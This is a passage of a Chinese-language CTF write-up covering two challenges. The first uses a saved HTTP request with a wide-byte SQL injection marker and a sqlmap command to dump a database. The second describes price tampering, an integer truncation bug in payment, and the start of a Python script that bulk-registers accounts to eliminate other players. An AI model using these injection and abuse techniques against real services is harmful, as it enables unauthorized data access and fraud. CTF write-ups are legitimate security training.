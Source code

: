 inject.txt

```
GET /Ze02pQYLf5gGNyMn/query_aIeMu0FUoVrW0NWPHbN6z4xh.php?id=1%df* HTTP/1.1
Host: 117.51.147.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://117.51.147.2/Ze02pQYLf5gGNyMn/
Connection: close
Upgrade-Insecure-Requests: 1
```

sqlmap跑一波

```
python sqlmap.py -r inject.txt --level 3
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019577542362ecad8d.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019c70535ea8b8677e.png)

最后dump字段的时候sqlmap忽然开始盲注了，为了尽快做出来直接用sqlmap的payload手注了一下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d7c8bab395409419.png)





## 0x06：大吉大利,今晚吃鸡~

题目链接：http://117.51.147.155:5050/index.html#/login 经过测试订单的钱可以改只要大于1000就可以，最后购买的时候在处理32-64位之间的整数时，会取到低32位。凭票入场之后就是吃鸡战场，每一个入场的选手都会又一个id和ticket，输入别人的就可以让人数减一。手快不如工具快，老汉能把青年赛，放脚本批量注册小号批量杀就可以了。

```
import requests
import json
import time
import uuid
import hashlib

proxies = `{`'http':'127.0.0.1:8080'`}`

def create_md5():
    m=hashlib.md5()
    m.update(bytes(str(time.time())))
    return m.hexdigest()

def register_pay():

    session = requests.Session()
    paramsGet = `{`"name":create_md5(),"password":create_md5()`}`
    print(paramsGet)
    headers = `{`"Accept":"application/json","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0","Referer":"http://117.51.147.155:5050/index.html","Connection":"close","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate"`}`
    response = session.get("http://117.51.147.155:5050/ctf/api/register", params=paramsGet, headers=headers, proxies=proxies)

    time.sleep(0.5)

```